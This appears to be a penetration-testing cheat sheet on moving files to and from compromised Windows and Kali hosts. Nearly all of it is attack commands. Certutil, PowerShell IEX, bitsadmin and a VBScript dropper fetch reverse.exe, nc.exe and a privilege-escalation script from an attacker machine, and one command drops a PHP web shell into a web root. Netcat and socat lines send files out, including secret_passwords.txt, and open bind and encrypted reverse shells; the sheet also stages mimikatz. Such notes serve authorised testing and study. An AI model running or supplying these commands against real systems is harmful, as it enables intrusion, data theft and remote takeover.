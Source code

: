 #### Certutil
[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe
```

If unable to save in that location, simply find TEMP, save and execute there.
```command prompt - windows
echo %TEMP%
```

```command prompt - windows
cd %TEMP%
```

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe C:\Windows\TEMP\reverse64.exe
```

```command prompt - windows
C:\Windows\TEMP\reverse64.exe
```

Run PS download command in CMD (Note that we will need to press **enter** after the PowerShell command to get the cmd prompt back.):
```powershell - windows
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe', '%TEMP%\Tools\reverse.exe')"
```


#### PowerShell Download and execute:
```powershell - windows
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```

#### Powershell Just Download:
```powershell - windows
iwr http://$KALI/cmd.php -OutFile C:\xampp\htdocs\cmd.php
```

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/reverse.exe' -OutFile reverse.exe
```

```powershell - windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','reverse.exe')"
```

#### SMB
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#SMB File Transfer]]

#### Rdesktop share folder < BEST FOR BINARY FILES!
[[Port 3389 - RDP ~#rdesktop]]

#### Bitsadmin
```command prompt - windows
bitsadmin /create 1 bitsadmin /addfile 1 http://$KALI:80/reverse64.exe reverse64.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

#### PureFTPD_Installation
```bash - kali
sudo apt install pure-ftpd
```

```bash - kali
chmod +x PureFTPD_Setup.sh
```

```bash - kali
sudo ./PureFTPD_Setup.sh
```

#### PureFTPD_setup.sh

```bash - kali
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

#### PureFTPD_file transfer
```bash - Kali
service pure-ftpd start
```

```bash - kali
ftp $KALI
```

```bash - kali
offsec
```

```bash - kali
lab
```

```bash - kali
binary
```

```bash - kali
put winpeas.txt
```

```bash - kali
less -r winpeas.txt
```


### wget.vbs
```command prompt - kali
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After you've created wget.vbs
```command prompt - kali
cscript wget.vbs http://$KALI/nc.exe nc.exe
```

##### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

PowerShell example:
```
cmd /c "nc.exe -w 3 [destination] 1234 < winpeas.txt"
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Windows Bind Shell
```
socat TCP4-LISTEN:443 EXEC:cmd.exe,pipes
```

```
socat - TCP4:$TARGET:443
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Powershell unzip a file
```
expand-archive -path mimikatz.zip
```
